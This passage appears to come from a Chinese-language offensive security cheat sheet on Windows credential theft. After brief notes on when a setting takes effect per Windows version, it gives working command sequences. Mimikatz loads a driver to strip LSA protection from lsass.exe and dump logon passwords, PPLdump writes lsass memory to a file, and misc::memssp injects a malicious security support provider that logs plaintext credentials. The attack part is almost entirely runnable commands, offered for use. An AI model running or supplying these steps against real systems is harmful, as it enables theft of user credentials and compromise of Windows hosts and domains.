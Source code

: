 :warning: 生效条件如下：

- Win7 / 2008R2 / 8 / 2012 / 8.1 / 2012R2:
  * 添加需要锁定
  * 移除需要注销
- Win10:
  * 添加需要注销
  * 移除需要注销
- Win2016:
  * 添加需要锁定
  * 移除需要重启

## LSA保护绕过

- LSA作为受保护的进程（RunAsPPL）

  ```powershell
  # 检查LSA是否作为受保护的进程运行，方法是查看变量"RunAsPPL"是否设置为0x1
  reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa
  
  # 接下来从官方mimikatz仓库上传mimidriver.sys到你的mimikatz.exe所在的文件夹
  # 现在让我们将mimidriver.sys导入系统
  mimikatz # !+
  
  # 现在让我们从lsass.exe进程中删除保护标志
  mimikatz # !processprotect /process:lsass.exe /remove
  
  # 最后运行logonpasswords函数以转储lsass
  mimikatz # privilege::debug    
  mimikatz # token::elevate
  mimikatz # sekurlsa::logonpasswords
  
  # 现在让我们重新添加lsass.exe进程的保护标志
  mimikatz # !processprotect /process:lsass.exe
  
  # 卸载创建的服务
  mimikatz # !-
  ```

  # https://github.com/itm4n/PPLdump

  PPLdump.exe [-v] [-d] [-f] <PROC_NAME|PROC_ID> <DUMP_FILE>
  PPLdump.exe lsass.exe lsass.dmp
  PPLdump.exe -v 720 out.dmp

  ```
- LSA作为由**Credential Guard**运行的虚拟化进程(LSAISO)
  ```powershell
  # 检查是否有名为lsaiso.exe的进程在运行
  tasklist |findstr lsaiso
  
  # 让我们将自己的恶意安全支持提供者注入到内存中
  # 需要在同一文件夹中有mimilib.dll
  mimikatz # misc::memssp
  
  # 现在，这台机器上的每个用户会话和身份验证都会被记录，纯文本凭据将被捕获并转储到c:\windows\system32\mimilsa.log中
  ```
